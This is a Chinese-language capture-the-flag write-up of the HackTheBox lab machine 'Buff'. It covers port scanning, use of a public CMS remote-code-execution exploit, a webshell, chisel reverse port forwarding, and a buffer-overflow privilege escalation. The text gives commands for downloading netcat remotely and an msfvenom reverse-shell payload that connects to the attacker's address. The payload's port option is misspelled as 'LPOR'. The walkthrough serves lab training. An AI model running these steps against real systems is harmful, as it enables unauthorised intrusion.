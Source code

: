 
## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/buff]
└─$ sudo nmap  --min-rate 4444 -p- 10.10.10.198
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 06:02 EDT
Nmap scan report for 10.10.10.198
Host is up (0.33s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```
扫到两个端口，一个说是http-proxy
那么直接用代理访问下7680
![](images/2024-07-21-18-20-57.png)
没问题

## web渗透
![](images/2024-07-22-21-24-52.png)
这有个cms泄露
搜下nday
![](images/2024-07-22-22-06-10.png)
有个rce
![](images/2024-07-22-22-05-53.png)
直接拿脚本下来用
![](images/2024-07-22-21-24-30.png)
远程下nc（这里用powershell那个下载，webshell需要base64编码一下）
写个webshell找文件，连上哥斯拉
![](images/2024-07-22-22-55-20.png)
找到一个exe
搜索历史漏洞

## 提权
![](images/2024-07-22-23-17-57.png)
![](images/2024-07-22-23-18-34.png)
可以看到poc攻击的是该exe运行的8888端口，此时靶机的8888端口确实是开着的
那么利用该poc

### 端口转发
要利用poc需要使用到端口转发
这里使用的是`chisel.exe`
![](images/2024-07-22-23-58-07.png)
首先在攻击机开启端口监听
`chisel server --reverse --port 9001`
![](images/2024-07-22-23-57-37.png)
转发靶机端口
`chisel.exe client <kaliIP>:9001 R:8888:localhost:8888`
查看是否成功转发
netstat -anlp |grep 8888

## 溢出提权
端口转发后
根据poc的payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.18.16 LPOR=4444 -b '\x00\x0A\x0D' -f python
生成payload替换py脚本中的payload
然后运行py脚本
![](images/2024-07-23-00-17-58.png)